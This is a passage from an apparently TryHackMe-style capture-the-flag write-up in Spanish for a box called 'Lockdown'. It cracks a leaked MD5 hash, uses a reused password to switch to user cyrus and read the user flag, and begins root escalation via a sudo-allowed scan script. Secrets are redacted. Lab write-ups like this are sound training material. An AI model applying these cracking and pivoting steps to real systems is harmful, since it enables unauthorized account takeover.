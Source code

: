 ```bash

mysql> 
```
¡Y ahora tenemos una contraseña hasheada!

¡Tenemos muchas formas de "dehashearla"!

Voy a usar `STH (Search That Hash)`. Pero puedes usar `crackstation` o incluso `john`.

```bash

╰─ lanfran@parrot ❯ sth --text "3[REDACTADO]d"                                                                  ─╯

  _____                     _        _______ _           _          _    _           _
 / ____|                   | |      |__   __| |         | |        | |  | |         | |
| (___   ___  __ _ _ __ ___| |__ ______| |  | |__   __ _| |_ ______| |__| | __ _ ___| |__
 \___ \ / _ \/ _` | '__/ __| '_ \______| |  | '_ \ / _` | __|______|  __  |/ _` / __| '_ \
 ____) |  __/ (_| | | | (__| | | |     | |  | | | | (_| | |_       | |  | | (_| \__ \ | | |
|_____/ \___|\__,_|_|  \___|_| |_|     |_|  |_| |_|\__,_|\__|      |_|  |_|\__,_|___/_| |_|
        
https://twitter.com/bee_sec_san
https://github.com/HashPals/Search-That-Hash
https://twitter.com/Jayy_2004


3[REDACTADO]d

Text : s[REDACTADO]m
Type : MD5
```

¡Ahora tenemos la contraseña en texto plano!

Veamos si algún usuario reutilizó esta contraseña ...

```bash
www-data@lockdown:/home$ su cyrus
Password: 
cyrus@lockdown:/home$ cat /home/cyrus/user.txt 
THM{[REDACTADO]}
```
Afortunadamente para nosotros, el usuario `cyrus` reutilizó la contraseña y ahora tenemos la flag del usuario.


## Raíz

Para obtener la flag de root, tenemos que seguir un camino interesante...

Primero, podemos ejecutar un script con `sudo`.
```bash
cyrus@lockdown:/home$ sudo -l
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
cyrus@lockdown:/home$
```
Al leer este script, se activará un escaneo en la ruta que le demos...

